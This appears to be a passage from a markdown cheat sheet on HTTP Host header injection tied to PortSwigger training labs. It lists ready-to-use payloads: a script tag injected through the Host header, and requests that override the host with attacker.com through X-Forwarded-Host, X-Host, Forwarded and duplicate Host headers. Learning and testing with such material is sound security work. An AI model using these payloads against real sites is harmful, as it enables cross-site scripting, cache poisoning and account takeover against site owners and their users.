 ## 5. Host Header Attack for XSS
- Check if the response contains:
  ```html
  https://bing.com/?locald">
  ```
- Use the payload:
  ```html
  Host: bing.com"><script>alert(1)</script>
  ```

## 6. Host Header Injection on Referer Header
- Modify headers:
  ```http
  Connection: close
  Referer: https://www.bing.com/
  ```

## 7. Subdomain-Based Host Header Injection
- Use existing and non-existing subdomains to inject headers.

## 8. Advanced Host Header Attacks
### Internal Host Access:
```http
GET / HTTP/1.1
Host: attacker.com

GET / HTTP/1.1
Host: vulnerable.com
Host: attacker.com

GET / HTTP/1.1
Host: vulnerable.com
X-Forwarded-Host: attacker.com

GET https://vulnerable.com/ HTTP/1.1
Host: attacker.com

GET / HTTP/1.1
Host: vulnerable.com
X-Host: attacker.com
X-Forwarded-Server: attacker.com
X-HTTP-Host-Override: attacker.com
Forwarded: host=attacker.com
```
Based on your GitHub lab on [HTTP Host Header Attacks](https://github.com/Anvesh464/Portswigger-Labs/tree/main/20%20-%20HTTP%20Host%20header%20attacks), here's a **step-by-step breakdown** for each attack scenario from the PortSwigger labs.

To identify Host Header Injection vulnerabilities, focus on these key parameters and headers:
